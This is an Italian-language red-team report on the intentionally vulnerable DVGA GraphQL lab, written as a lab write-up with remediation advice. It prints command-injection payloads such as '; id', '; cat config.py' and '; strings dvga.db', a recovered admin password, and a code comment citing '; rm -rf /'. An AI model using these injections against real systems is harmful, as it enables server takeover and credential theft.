









# DVGA (GraphQL API)

---

## 1 Executive Summary

Durante l'attività di Red Teaming condotta sull'applicazione DVGA, sono state identificate molteplici vulnerabilità critiche nella gestione delle API GraphQL.

L'attaccante, partendo da una ricognizione passiva, è riuscito ad aggirare i controlli di sicurezza dell'interfaccia utente, mappare l'intera struttura del database e individuare un punto di iniezione di comandi (Command Injection).

Questa catena di vulnerabilità ha portato alla totale compromissione del server (Remote Code Execution), permettendo l'esfiltrazione di dati sensibili (PII), credenziali amministrative in chiaro e token di accesso (JWT).

---

## 2 Metodologia e Fasi del Test (Attack Narrative)

Di seguito vengono descritti cronologicamente i passaggi eseguiti per compromettere il sistema.

#### Fase 1: Reconnaissance & Introspection (Information Disclosure)

Obiettivo: Mappare le funzionalità disponibili nell'API.

- Tentativo Iniziale (Fallito): È stato tentato l'uso dell'interfaccia web GraphiQL per eseguire una query di Introspection (`_ _schema`).

    Risultato: Il server ha risposto con Errore 400: `GraphiQL Access Rejected`, indicando la presenza di un blocco livello applicativo per l'interfaccia grafica.

- Bypass del WAF (Successo): Per aggirare il blocco sull'interfaccia grafica, le richieste sono state migrate su terminale utilizzando `curl`. Inviando la richiesta direttamente all'endpoint `/graphql` (Raw HTTP Request), il server ha risposto correttamente.

    Payload: `{"query": "query { __schema { types { name fields { name } } } }"}`

    Risultato: Ottenuta la lista completa delle Query e Mutation disponibili.

    Finding: Individuate query critiche non documentate: `systemDebug`, `systemDiagnostics`, `systemUpdate`.

#### Fase 2: Access Control Bypass & Data Discovery

Obiettivo: Testare l'accesso ai dati pubblici e privati.

- L'attaccante ha interrogato l'endpoint `pastes` bypassando nuovamente l'interfaccia grafica via `curl`.
- Information Disclosure: Sono stati estratti dati sensibili contenuti nei messaggi pubblici (es. numeri di telefono in `555-555-1337`).
- È stata identificata la struttura degli oggetti, confermando che i messaggi sono collegati a un oggetto `Owner` con campo `name` (e non `username`, come inizialmente ipotizzato grazie ai suggerimenti di errore verbose del server).

#### Fase 3: Vulnerability Scanning - Command Injection (RCE)

Obiettivo: Verificare se le funzioni di sistema scoperte (`systemDebug`) fossero vulnerabili a iniezione.

L'analisi si è concentrata sulla query `systemDebug(arg: String)`.

- Test 1: Esecuzione Diretta (Blind)

Payload: `arg: "whoami"`

Risultato: Output vuoto. Il server esegue il comando ma non restituisce l'output se il comando fallisce o non produce stream standard.



- Test 2: Time-Based Injection (Verifica)

Payload: `arg: "sleep 5"` -> Risposta immediata (0.03s). FALLITO.

Ipotesi: L'input viene inserito come argomento di un altro comando (es. `ps <input>`).



Payload Corretto: `arg: "; sleep 5"` -> Il server ha risposto dopo 5.04 secondi. SUCCESSO.

Analisi: Il carattere `;` ha terminato il comando originale del server, permettendo l'esecuzione del comando `sleep`.



- Test 3: Remote Code Execution (RCE)

Una volta confermata l'iniezione, è stato iniettato il comando `id`.

Payload: `arg: "; id"`

Risultato: `uid=1000(dvga) gid=1000(dvga)`. L'attaccante ha ora la capacità di eseguire comandi come l'utente del sistema operativo.



#### Fase 4: Post-Exploitation & Data Exfiltration

Obiettivo: Escalare i privilegi ed esfiltrare credenziali.

- Esplorazione File System:

Comando iniettato: `; ls -la`

File critici individuati: `config.py`, `dvga.db` (Database SQLite).



- Furto Codice Sorgente:

Comando iniettato: `; cat config.py`

Dati esfiltrati: Chiavi segrete (`SECRET_KEY`), configurazione database (`sqlite:///dvga.db`) e flag di debug attivi.



- Dump del Database (Bypass Encoding):

Tentativo fallito: `; cat dvga.db` -> Errore di codifica binaria/UTF-8.



Bypass: Utilizzo del comando `strings` per estrarre solo i caratteri leggibili.

Payload: `arg: "; strings dvga.db"`

Risultato Critico: Estratte credenziali amministrative in chiaro.
- User: `admin`
- Password: `changeme`



#### Fase 5: Account Takeover

Obiettivo: Ottenere accesso persistente.

- Utilizzando le credenziali esfiltrate, è stata invocata la mutation `login`.
- Payload: `mutation { login(username:"admin", password:"changeme") { accessToken } }`
- Risultato: Ottenuto JWT Token valido per l'utente amministratore.



---

## 3. Root Cause Analysis (Secure Coding)

Analisi del codice vulnerabile e correzione proposta.

#### Codice Vulnerabile Identificato (Python)

Il server utilizza funzioni insicure per interagire con il sistema operativo, concatenando input utente non sanificato.

```Python
# VULNERABILE
import os

def resolve_system_debug(root, info, arg):
    # L'input 'arg' viene concatenato direttamente alla stringa del comando.
    # Se l'utente invia "; rm -rf /", il sistema lo esegue.
    command = "ps " + arg
    return os.popen(command).read()
```

Codice Sicuro Proposto (Remediation)

Per mitigare la vulnerabilità, è necessario abbandonare l'uso della shell (`shell=True` o `os.system`) e utilizzare `subprocess` con una lista di argomenti, impedendo l'interpretazione di caratteri speciali come `;` o `|`.

```Python
# SICURO
import subprocess

def resolve_system_debug(root, info, arg):
    # 1. Whitelist: Definisci rigorosamente cosa è permesso.
    allowed_args = ["aux", "-ef", "--forest"]
    
    if arg not in allowed_args:
        raise Exception("Security Violation: Invalid argument")

    # 2. Subprocess: Esecuzione diretta senza shell.
    # Anche se l'utente riuscisse a passare "; ls", verrebbe trattato come 
    # una stringa letterale, non come un comando.
    try:
        # Nota: shell=False è il default.
        output = subprocess.check_output(["ps", arg], text=True)
        return output
    except subprocess.CalledProcessError:
        return "Error executing command"
```

---

## 4 Altre Vulnerabilità Rilevate

Oltre alla RCE principale, sono state riscontrate le seguenti criticità accessorie che hanno facilitato l'attacco:

| Vulnerabilità |Livello | Descrizione |
|---------------|--------|-------------|
| Introspection Enabled | Medio | L'API permette di scaricare lo schema completo (`_ _schema`), rivelando funzioni nascoste come `systemDebug` |
| Verbose Error Messages | Basso | Il server restituisce stack trace Python completi in caso di errore (Debug Mode attivo), aiutando l'attaccante a capire la tecnologia sottostante |
| Cleartext Passwords | Critico | Le password nel database `dvga.db` sono salvate in chiaro, violando ogni standard di sicurezza (GDPR, ISO 27001). Avrebbero dovuto essere hashate (es. `bcrypt`) |
| Lack of Rate Limiting | Medio | Non sono stati rilevati limiti alle richieste API, permettendo brute-force o DoS |

---

## 5 Conclusioni

Il sistema DVGA presenta gravi lacune di sicurezza che permettono a un attaccante esterno non autenticato di prendere il completo controllo della macchina in meno di 10 minuti. Si raccomanda un'immediata revisione del codice (Code Review) seguendo le linee guida proposte nella sezione "Root Cause Analysis".